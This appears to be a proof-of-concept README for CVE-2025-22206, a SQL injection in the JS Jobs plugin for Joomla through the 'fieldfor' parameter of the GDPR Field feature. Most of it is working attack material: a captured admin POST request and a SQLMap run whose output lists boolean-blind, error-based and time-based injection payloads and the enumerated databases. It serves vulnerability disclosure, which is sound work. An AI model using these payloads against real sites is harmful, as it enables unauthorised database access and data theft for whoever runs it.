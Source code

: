 # CVE-2025-22206: JS Jobs SQL injection vulnerability

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22206
**JS Jobs:** https://joomsky.com/js-jobs-joomla
**Writeup:** https://decrypt.locker/obtaining-my-first-cve

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.1.5-1.4.2 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands via the 'fieldfor' parameter in the GDPR Field feature.

## POC
To exploit this vulnerability, log in as the site administrator and go to 'Dashboard >> GDPR Fields >> + Add New Field >> Add Fields >> Field Title: test >> Field Text: test >> Save Fields' (see Figure 3).

![Alt text](https://decrypt.locker/content/images/size/w1000/2025/02/3.png)

Then capture the Save Fields HTTP request with Burp Suite and save the request to a file (req.txt). Then run SQLMap through the file to exploit the SQLi vulnerability (see below).

**HTTP Request:**
```
POST /administrator/index.php HTTP/1.1
Host: localhost:8080
Content-Length: 364
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; a3030abf7606e950783a31b16179a889=1c61b4c6f83b5569f9484c6888412100; f06339f02055c32957cf8cda32f8587f=48b5f4615da4721440ffe8ec49d08347
Connection: keep-alive

check=89cb1c0cc02cf810832f5e4c6c7b7386&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=14&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save+Fields&89cb1c0cc02cf810832f5e4c6c7b7386=1
```

**Exploit:**
```
ubuntu@host:~/tools$ python3 sqlmap-dev/sqlmap.py -r ~/test/req.txt --batch --dbs

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: fieldfor (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: check=891b79eeac944c244b6331618aa0dac0&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=(SELECT (CASE WHEN (7446=7446) THEN 14 ELSE (SELECT 6203 UNION SELECT 9943) END))&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save Fields&891b79eeac944c244b6331618aa0dac0=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: check=891b79eeac944c244b6331618aa0dac0&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=14 AND GTID_SUBSET(CONCAT(0x71786a6271,(SELECT (ELT(6091=6091,1))),0x716a766b71),6091)&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save Fields&891b79eeac944c244b6331618aa0dac0=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: check=891b79eeac944c244b6331618aa0dac0&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=14 AND (SELECT 7659 FROM (SELECT(SLEEP(5)))kQDv)&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save Fields&891b79eeac944c244b6331618aa0dac0=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
